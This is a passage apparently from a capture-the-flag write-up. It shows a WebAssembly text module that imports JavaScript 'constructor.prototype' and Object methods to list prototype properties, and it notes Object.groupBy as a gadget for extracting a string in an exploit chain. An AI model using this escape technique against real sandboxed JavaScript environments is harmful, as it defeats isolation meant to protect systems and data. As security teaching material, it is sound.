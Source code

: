 With the things that we can access the prorotype with wasm, this is super possible. Try to implement this into our wat.  
```js 
(module
  (import "js" "log" (func $log (param externref)))
  (import "constructor" "prototype" (global  $oops externref ))
    (import "constructor" "values" (func $values (param externref) (result externref)))
      (import "constructor" "getOwnPropertyNames" (func $getOwnProp (param externref) (result externref)))
  (func (export "run")

    (global.get $oops)
    call $values
    call $getOwnProp

    call $log
  )
)
```
Here we go !!! 
![image](./8.png)
So how we can extract this string out ??. The only way gadget is **Object.groupBy** this is super useful in all this chain. 
![image](./9.png)
- There's interesting in Object.groupBy is that the value return from the callback will set into key !!! Remember that because we need it so much.
